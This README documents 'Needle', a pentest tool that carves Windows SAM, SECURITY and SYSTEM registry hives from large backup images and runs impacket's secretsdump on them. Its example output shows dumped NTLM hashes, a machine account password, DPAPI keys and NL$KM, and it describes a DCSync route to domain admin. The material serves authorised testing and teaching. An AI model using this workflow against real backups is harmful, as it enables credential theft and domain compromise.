# Needle

Needle is a file carving utility that works very well for finding Windows centric high value files within a given haystack. This specifically was targeting Veritas NetBackup files but it works for any large block of data such as a tar or VHD file.

It specifically looks for the on disk versions of SAM, SECURITY, and SYSTEM registry hives and carve those files out of the blob of data. If impacket is installed, it will utilize secretsdump to automatically dump secrets from the hives. 

## Why?
We were on an Internal pen test where the client had unauthenticated access to a NFS share which contained backups of several High Value Targets including their DC. The backup images were created by NetBackup and were a non-standard tar file that we were unable to easily extract or exfiltrate due to the large size of the image (130+ GB). We created this tool to automate a process done manually during the test in order to gain access to the machine account in order to DCSYNC the DC and get DA. 

Also Bastion on Hack The Box is a thing. 

## Notes
If the haystack is a true backup of a Windows computer, it is very likely there will be multiple copies of the registry hive on disk due to Windows keeping a copy for recovery purposes. If local or LSA secrets is output multiple times with the same data, this is likely the reasoning. 

## Usage
```
python3 main.py /path/to/haystack
```

## Expected Output
`python3 main.py /mnt/large.vm.backup.tar`
```
Potentially found SAM at offset 2170928 within searched chunk 977. Writing to 905b5cd4-f9bf-421f-916c-531ad97b5d34_SAM
Potentially found SECURITY at offset 2461744 within searched chunk 977. Writing to de639e0e-a5ad-4d2e-aff2-b415c0087604_SECURITY
Potentially found SYSTEM at offset 3129391 within searched chunk 984. Writing to d20cc9ed-25ec-4f48-9a5d-f009ec73ccd2_SYSTEM
Potentially found SYSTEM at offset 2609199 within searched chunk 986. Writing to b0c4826a-6ffb-4464-b760-210f0b94f9be_SYSTEM
Potentially found SECURITY at offset 1708080 within searched chunk 1165. Writing to 82d5e5d4-79ca-46f6-8a5d-9a017b920b6f_SECURITY
Potentially found SAM at offset 2125872 within searched chunk 3397. Writing to de0c2e6b-6f86-431d-a8bd-5e3e8c0c53c3_SAM
Potentially found SECURITY at offset 364592 within searched chunk 24271. Writing to a134d5bb-d583-4c97-9926-7fa68367a788_SECURITY
Potentially found SYSTEM at offset 1966127 within searched chunk 33848. Writing to ccf58b55-3cef-4764-acf2-772c2c575cda_SYSTEM

impacket is installed, trying to autodump SAM and LSA Secrets using secretsdump...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:b4b9b02e6f09a9bd760f388b67351e2b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

$MACHINE.ACC:plain_password_hex:6e88709fade737b4ee7667c0a1749d8a68db0966aea6ae6fc1a8ffb77109c53e408de50c5f80ca41baaa35ee6b224ea0e24687b3c056c260e84913e74c8db0137fa1418ccae2db1e18c245dd23fafa1fc8b1b208ae79ff95938196f2f3f0858703351c3a62910edb25072e59859961131a7323494a4f431e48e6dacf6ab0194dfe3b4c09a5d57abc6c61c2537a54a7b30d4a0a37e9bd8bbbe9907ce9c07b417bace4f7b730a0711bff10ddf977eff11be0e13c69dd4e03416949b3d5ba3e1d1276a0defc42888857de878934f6b284a4f3524b24b4cfa68993b0e396955259b1a2ae2f3e07449ff84410fd227650a39f
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:86d57971204ad7503e3fb1da9d03cb14
dpapi_machinekey:0x4cdc855cea4c0aad4b8d624c7416e3c2efcd4ed3
dpapi_userkey:0x8f57b3cd3705ed348056220254b0c4896eeacce8
NL$KM
 0000   6E 0E 6B 09 C1 58 FA 85  E3 AD 46 4F 21 94 4D DA   n.k..X....FO!.M.
 0010   6A 1E 23 7B 67 BB D3 02  F9 6C CC AB E3 DC 15 8E   j.#{g....l......
 0020   EE F2 BB 65 36 B1 FF 29  34 74 BE 69 02 0C 9A AA   ...e6..)4t.i....
 0030   9F 40 5B F9 22 E8 0F 72  81 0F A7 21 4F BE 4F 29   .@[."..r...!O.O)
NL$KM:6e0e6b09c158fa85e3ad464f21944dda6a1e237b67bbd302f96cccabe3dc158eeef2bb6536b1ff293474be69020c9aaa9f405bf922e80f72810fa7214fbe4f29
```

## TODO
- [x] Find SAM in haystack and write to file
- [x] Find SYSTEM in haystack and write to file
- [x] Dump local hashes using secretsdump
- [x] Find SECURITY in haystack and write to file
- [x] Expand dumping to include Machine Account
- [ ] Refactor to use argparse (WIP)
- [ ] Refactor patterns into a list for easier expandability
- [ ] Add ability to skip to certain chunks if ran before
- [ ] Add flag to only look for system, sam, security, etc 
- [ ] Add flag to change output directory
- [ ] Add flag to only search misaligned (debug)
- [x] Add in ability to find multiple copies within given chunk
- [x] Find ESE DBs if haystack is from DC
- [ ] Check if ESE DB is NTDS.dit if haystack is from DC
